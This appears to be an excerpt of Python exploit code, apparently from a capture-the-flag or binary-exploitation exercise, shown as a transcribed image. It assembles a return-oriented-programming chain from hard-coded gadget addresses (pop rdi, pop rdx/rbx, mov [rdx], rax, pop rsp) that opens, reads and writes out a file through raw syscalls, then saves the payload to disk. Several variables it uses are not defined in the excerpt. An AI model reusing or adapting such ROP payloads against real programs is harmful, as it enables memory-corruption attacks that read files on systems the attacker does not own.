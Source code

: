 ```py
# pop rdx; pop rbx; ret
pop_rdx_rbx = p64(0x0000000000485b4b)

# buffer address for pop rdi instruction
buffer_pop = p64(address + 200)

# mov qword ptr [rdx], rax ; ret
mov_rdx_rax = p64(0x00000000004198a8)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)


# writing file

# pop rsp; ret
pop_rsp = p64(0x00000000004023ee)


payload = file_name + padding

file_open = payload + pop_rax_rdx_rbx + two + zero + zero + pop_rsi + zero + pop_rdi + buffer_addr + syscall

file_read = pop_rdx_rbx + buffer_pop + zero + mov_rdx_rax + pop_rdi + b"\x90" * 8 + pop_rax_rdx_rbx + zero + zero + zero + pop_rsi + buffer_addr + pop_rdx_rbx + length + zero + syscall

file_write = pop_rax_rdx_rbx + one + zero + zero + pop_rdi + one + pop_rdx_rbx + length + zero + syscall

exploit = file_open + file_read + file_write


with open('payload', 'wb') as file:
    file.write(exploit)
```